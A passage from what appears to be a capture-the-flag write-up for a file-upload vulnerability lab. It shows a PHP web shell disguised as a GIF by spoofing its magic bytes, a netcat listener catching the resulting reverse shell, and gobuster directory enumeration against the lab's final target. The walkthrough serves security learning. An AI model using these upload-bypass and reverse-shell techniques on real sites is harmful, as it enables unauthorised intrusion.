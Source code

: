 ```bash
cp shell.php magic.php

file magic.php
	shell.php: PHP script, ASCII text

nano magic.php
# add as first line, a number of random bytes = number of chosen magic number (GIF87a)
# in this case
# AAAAAA

hexeditor magic.php
# Modify the Hex signature to be 47 49 46 38 37 61

file magic.php
	shell.php: GIF image data, version 87a, 15370 x 28735
```

```bash
nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
```

---

## Final challenge - Jewel

```bash
gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 181] [--> /content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
/admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Content              (Status: 301) [Size: 181] [--> /Content/]
/Assets               (Status: 301) [Size: 179] [--> /Assets/]
/Modules              (Status: 301) [Size: 181] [--> /Modules/]
/Admin                (Status: 200) [Size: 1238]
```
